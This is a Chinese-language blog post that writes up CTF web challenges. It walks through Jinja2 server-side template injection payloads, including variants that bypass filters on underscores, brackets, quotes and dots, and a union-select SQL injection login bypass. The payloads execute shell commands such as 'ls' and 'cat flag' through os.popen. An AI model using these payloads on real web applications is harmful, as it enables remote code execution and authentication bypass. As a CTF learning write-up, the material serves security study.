 ```yaml
---
title: SSTI
date: 2020-12-22 
description: XCTF华为专场的mine-1，触及到了知识盲区。这就是大佬们的签到题吗？
category: 信息安全
tags:
  - CTF
  - Web
  - SSTI
---
```

# 最基础的概念
这道题没有任何限制，just讲一下基本步骤
攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了） 
  
这道题什么都没有过滤  
  
ls的payload:
```
{% raw %}{{().__class__.__base__.__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}{% endraw %}
```
注意，在基类中，os所在的`site._Printer`不一定是第几个，这个题是第71个罢了。subclass可以看到所有类，慢慢找  
  
而且名字也不一定叫`site._Printer`，但长得差不多，比如校赛中的就叫`_sitebuiltins._Printer`，关键字就这么几个  
  
每个指令的作用：
```
__class__返回参数类型	().__class__就返回了tuple类型
__base__或__mro__返回基类。__mro__其实返回的是解析方法调用的顺序（method resolution order），返回的东西多
__subclasses__获取基类的子类
__getitem__切片操作
__init__类的初始化方法
__globals__对包含函数全局变量的字典的引用
__builtins__里面是自建模块
eval可以把数据整合成str格式
__import__("os")加载os
```
`ls`查看的是当前目录，`ls /`查看的是根目录  
最后用`'cat fl4g'`读取文件
# 过滤了_ \[] ‘’ “”
XCTF mine1_1    
如果只过滤`[]`的话，payload长这样：
```
{% raw %}{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}{% endraw %}
```
因为又过滤了下划线，payload长这样：
```
{% raw %}{{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read(){% endraw %}
```
`args`没被过滤的话也能用。学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。
# 过滤了{% raw %}{{{% endraw %}
两个大括号连着一起会被检测，但是一个大括号莫得事  
所以我们可以用`{% assign openTag = '{%' %}{{ openTag }}print()%}`来代替
# 过滤了. +  and神一样的注入点
首先是一个sql注入，提示`login as admin`（wechall？梦开始的地方？）  
  
用户名输入`admin`密码随意，会返回登录页面，用户名随便会500  
  
  当输入`admin' union select 1,2,3,4 --`时会返回登陆页面（再次吐槽我矿ctf，order by被过滤，而且只有到4才成功，这真是运气），证明闭合了sql查询，没有登录成功，说明验证不是下面这个形式的：`select * from table where username=? and password=?`
  
  之后猜到（没错，猜到，我矿ctf的传统）是分离验证并加了md5，并且密码字段是第三个  
  ```sql
  username=test' union select 1,2,'21232f297a57a5a743894a0e4a801fc3',4 --
  password =admin
  ```
  登录成功，并看到了/info页面，改动info可以看到回显
  ![找到注入点](https://raw.githubusercontent.com/hideonsky/hideonsky.github.io/master/assets/images/SSTI/%E6%89%BE%E5%88%B0%E6%B3%A8%E5%85%A5%E7%82%B9.png)
  我们发现了两个可控的点，但是一个参数内同时出现`{% raw %}{}{% endraw %}`会被waf，所以我们把`{% raw %}{{% endraw %}`和`{% raw %}}{% endraw %}`分别放到两个参数里
  
  所以，真正的注入点是：
  ```sql
  {% raw %}username={{"test' union select 1,2,'21232f297a57a5a743894a0e4a801fc3',4 --
  password =admin
  url后面改为/啥都行"}}  {% endraw %}
  ```
  注意这个双引号，因为`{% raw %}{{}}}{% endraw %}`中间会有别的内容影响，用`""`包起来会被认为是字符串，就不会影响注入了  
  
  所以我们注入也是在`"`和`{% raw %}}}{% endraw %}`构造payload
  
  ls的payload：
  ```url
  {% raw %}"|attr(("_","_","cla","ss","_","_")|join)|attr(("_","_","ba","se","_","_")|join)|attr(("_","_","sub","cla","sses","_","_")|join)()|attr(("_","_","ge","titem","_","_")|join)(129)|attr(("_","_","in","it","_","_")|join)|attr(("_","_","glo","bals","_","_")|join)|attr(("_","_","ge","titem","_","_")|join)(("_","_","buil","tins","_","_")|join)|attr(("_","_","ge","titem","_","_")|join)(("e","val")|join)(("_","_","imp","ort","_","_")|join)(("o","s")|join)|attr(("po","pen")|join)(("l","s")|join)|attr(("re","ad")|join)()}}{% endraw %}
  ```
  cat的时候改成`"ca","t"," ","fl","ag"`即可，空格别忘了
# 一个小插曲，我渗透我自己
写这篇文章的时候Jekyll竟然把`{% raw %}{{}}{% endraw %}`里面给我当liquid代码执行了。同学的hexo没问题，试了一下因为多终端过于憨批，折腾了半天又用回了Jekyll  
  
这CTF打的，我渗透我自己  
解决办法{% assign openTag = '{%' %}
```
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}
```
那么奇奇怪怪的问题又增加了  
我是怎么打出来`{{ openTag }} raw %}`而没有被执行呢
```
{% raw %}{% assign openTag = '{%' %}
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}{% endraw %}
```
打`{% raw %}{{ openTag }} raw %}{% endraw %}`的时候差点又忘了刚学的`{{ openTag }} raw %}`，吐了吐了
